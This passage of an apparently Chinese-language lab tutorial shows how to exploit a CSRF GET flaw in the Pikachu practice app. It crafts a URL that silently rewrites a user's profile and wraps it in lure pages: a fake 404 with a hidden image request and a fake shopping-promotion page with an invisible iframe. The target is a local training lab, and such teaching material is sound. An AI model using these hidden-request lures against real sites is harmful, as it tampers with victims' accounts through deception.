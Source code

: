  在开发者模式中的网络中可以看见修改提交的URL


<h4>第二步：获取修改提交的URL</h4>
这个可以先自己提交的时候，然后找找提交修改的URL规律
不行的话，就结合xss等手段

<h4>第三步：构造恶意执行语句</h4>
http://localhost:8080/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=女&amp;phonenum=12124123123&amp;add=广州&amp;email=123456qq.com&amp;submit=submit

<h4>第四步：将构造的URL诱骗用户点击</h4>
在同一浏览器中打开这个URL将执行修改操作 
http://localhost:8080/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=女&amp;phonenum=12124123123&amp;add=北京&amp;email=123456qq.com&amp;submit=submit



<h4>更多其他的伪装方法：</h4>
写入html文件中，诱骗用户点击，并使用各种提示打消用户的疑虑
 //①伪装成错误页面（即404页面）
<pre><code>&lt;html&gt;
&lt;head&gt;
        &lt;title&gt;
            页面找不到
        &lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;img src="http://localhost:8080/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=女&amp;phonenum=12124123123&amp;add=北京&amp;email=123456qq.com&amp;submit=submit" border="0"style="display:none;"/&gt;
 
&lt;h1&gt;404&lt;h1&gt;
&lt;h2&gt;file not found.&lt;h2&gt;
&lt;/body&gt;
&lt;/html&gt;
</code></pre>

//②使用嵌套，让用户不易发现
duoduo.html
<pre><code>&lt;html&gt;
	&lt;head&gt;
		&lt;title&gt;
			某多多在线砍一刀
		&lt;/title&gt;
	&lt;/head&gt;
	&lt;body&gt;
		&lt;a href="post.html"&gt;在线机器人帮助砍一刀，点击砍取！！！&lt;/a&gt;
	&lt;/body&gt;
&lt;/html&gt;</code></pre>
post.html
<pre><code>&lt;html&gt;
	&lt;head&gt;
		&lt;title&gt;
			某多多助手
		&lt;/title&gt;
	&lt;/head&gt;
	&lt;body&gt;
		&lt;p&gt;请到某多多中查看砍一刀是否成功&lt;/p&gt;
		&lt;iframe/ src="http://localhost:8080/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=女&amp;phonenum=12124123123&amp;add=北京&amp;email=123456qq.com&amp;submit=submit" frameborder="0" width="0px"&gt;
	&lt;/body&gt;
&lt;/html&gt;</code></pre>
